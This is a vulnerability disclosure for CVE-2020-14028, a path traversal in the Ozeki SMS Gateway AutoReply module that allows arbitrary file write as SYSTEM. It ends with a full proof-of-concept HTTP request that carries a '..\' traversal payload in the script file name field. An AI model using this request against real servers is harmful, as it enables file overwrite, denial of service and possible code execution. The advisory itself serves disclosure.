

# CVE-2020-14028: Ozeki SMS Gateway Arbitrary File Write/Overwrite in the "AutoReply" Module

The Ozeki SMS Gateway software, versions 4.17.6 and below, has a path traversal vulnerability in the "AutoReply script file" name field.
<br/>
This vulnerability allows an attacker to write or overwrite arbitrary files, with arbitrary content, usually with "NT Authority\System" level privileges, and can be used to:
- Overwrite Ozeki config files (Ex. Change admin password, Log/Addressbook location, etc.)
- Overwrite Ozeki DLL files resulting in:
	- Denial of Service by preventing Ozeki from starting and/or accessing advanced functionalities
	- Remote Code Execution if an attacker can bypass the "Bad Char" restrictions
- Overwrite important EXEs, DLLs, LOGs and/or configuration files used by the OS in "C:\Windows" and subdirectories (if Ozeki is also installed on "C:")

### Requirements:

This vulnerability requires:
- Access to an Ozeki Web Application administration interface with rights to create "AutoReply" Scripts

### Proof Of Concept:

By using a "..\" path traversal attack we can write or overwrite, files with arbitrary name and content in arbitrary locations.


Request:
```
POST /userprops HTTP/1.1
Host: <IP>:9501
Content-Type: application/x-www-form-urlencoded
Content-Length: 791
Cookie: usrckenc=b3c***TRUNCATED***04c

user=12345678901&mode=configure&OZFORM_AUTOCONNECT=off&OZFORM_AUTOCONNECT=on&OZFORM_BUTTON=OK&OZFORM_REPLYSCRIPT=..%5C..%5C..%5C..%5C..%5C..%5C..%5C..%5Cmal.txt&OZFORM_REPLYSCRIPT_FILE=Arbitrary+file+write+as+System+is+...+bad+...&OZFORM_ZipRotatedFiles=off&OZFORM_ZipRotatedFiles=on&OZFORM_LOGDIRECTORY=C%3A%5CProgram+Files+%28x86%29%5COzeki%5COzekiNG+-+SMS+Gateway%5CLogs&OZFORM_LOGHISTORYCOUNT=8&OZFORM_LOGMAXFILESIZE=8000&OZFORM_LOGMESSAGES=off&OZFORM_LOGMESSAGES=on&OZFORM_LOGCOMMUNICATION=off&OZFORM_ADDRESSBOOKTYPE=File+Addressbook&OZFORM_RESPONSELIMIT=10&OZFORM_IDOVERRIDE=off&OZFORM_PHONENUMBER=12345678901&OZFORM_ACCOUNTING=off&OZFORM_PASSWORD=_ENC_UWVtr3bCVr8Rch3cEisbfQ%3D%3D&OZFORM_USERNAME=12345678901&OZFORM_UseSmsScheduling=off&OZFORM_TimeStart=00%3A00&OZFORM_TimeEnd=23%3A59
```


